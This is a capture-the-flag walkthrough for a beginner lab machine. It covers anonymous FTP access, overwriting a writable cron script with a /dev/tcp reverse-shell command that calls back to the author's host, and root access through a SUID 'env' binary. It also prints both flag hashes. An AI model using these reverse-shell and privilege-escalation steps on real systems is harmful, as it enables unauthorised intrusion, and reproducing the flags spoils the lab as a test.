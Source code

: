 **Tristan Gomez**

# Anonymous
```
Try to get the two flags! 
Root the machine and prove your understanding of the fundamentals! 
This is a virtual machine meant for beginners. 
Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.
```


I began the challenge with an nmap scan, finding four open ports. 
```
└─$ sudo nmap -Pn 10.10.33.63                                                                               
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 12:48 PDT
Nmap scan report for 10.10.33.63
Host is up (0.22s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
a) `Enumerate the machine.  How many ports are open?`
* 4 ports are open

b) `What service is running on port 21?`
* ftp

Then I attempted anonymous ftp to see what I could find. It's always good to check anonymous ftp first imo. It's a quick, low-hanging fruit that can have a lot of potential.

*Remember:* Anonymous ftp uses the credentials `anonymous:password`.
```
└─$ ftp
ftp> open 10.10.33.63
Connected to 10.10.33.63.
220 NamelessOne's FTP Server!
Name (10.10.33.63:gomez22): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
```

In the ftp directory, I found a `scripts` directory. Looking at the permissions...
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
```


We can see that the scripts directory is writeable. Hmm, weird. In the scripts directory, I found clean.sh, removed_files.log, and to_do.txt. Looking at the permissions again...
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Dec 20 20:43 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```
It looks like only clean.sh is writeable, but we appear to be able to add files to this directory. Lets take a peek in all the files.

In `to_do.txt` was...`I really need to disable the anonymous login...it's really not safe`. Well, this isn't super helpful, but at least they realize that this is a hole in their security.

In `removed_files.log` was...
```
└─$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
Hmm, a lot of nothing?


Finally, in `clean.sh`
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
So, let's put this all together. `clean.sh` is writeable, and it looks like it contains a bash script to remove files. Then the removed files are logged in `removed_files.log`, but there doesn't appear to have been any files deleted. There are a ton of `nothing to delete` messages in `removed_files.log`. This indicates to me that the shell script in running periodically. Since it's writeable, I think that I could alter it to send a reverse shell to my machine, giving me a foothold. Let's try it out!

I cleared out clean.sh and put in `/bin/bash -l > /dev/tcp/10.8.248.108/1111 0<&1 2>&1`.
I opened up a netcat listener on port 1111 and...
```
└─$ nc -nvlp 1111
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.119.150.
Ncat: Connection from 10.10.119.150:39932.
ls
pics
user.txt
python3 --version
Python 3.6.9
```

We're in! Let's spin up a pseudo shell with Python. 
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

```
namelessone@anonymous:~$ whoami
whoami
namelessone
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```
Now we have the user flag, but we need to privesc to find the root flag. I ran `find / -user root -perm -4000 -exec ls -ldb {} \;` to find binaries with the suid bit set. It looks like we have some choices, so I am going to consult `gtfobins` to see what I can exploit.
```
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /snap/core/8268/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/8268/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/8268/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/8268/bin/su
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /snap/core/8268/bin/umount
...
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/8268/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/8268/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/8268/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/8268/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo
...
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /bin/umount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
```

After a few tries the exploit that worked for me was with `env`

```
namelessone@anonymous:~$ env /bin/sh -p
env /bin/sh -p
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
#
```

And that's all she wrote! This was a fun one. I learned a lot. Before this challenge, I had not considered writing to an ftp directory, so now that option is in my playbook!